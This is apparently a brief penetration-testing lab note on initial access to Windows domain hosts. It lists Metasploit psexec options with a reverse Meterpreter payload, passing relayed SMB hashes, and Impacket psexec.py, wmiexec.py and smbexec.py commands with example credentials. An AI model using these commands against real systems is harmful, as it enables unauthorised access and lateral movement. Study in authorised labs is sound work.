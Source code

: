 #intialAccess

msfconsole
	need to set the following parameters to work 
		rhosts
		smbdomain
		smbuser
		smbpass
		**also changed the payload to x64 system
			ex - windows/x64/meterpreter/reverse_tcp
		can use the hash
		use the hash we got in the SMBrelay attack 
			used the entire hash 
psexec.py (domain/user):'<PasswordL>'@<machine IP>
	ex psexec.py MARVEL/tstark:'Password1"@192.168.88.101
	can also add without password and it will prompt to type
	canalso use a hash
		e x psexec.py admin@192.168.88.101 -hashes <Hash>
wmiexec.py
	if psexec.py doesnt work
smbexec.py
	if psexec.py doesnt work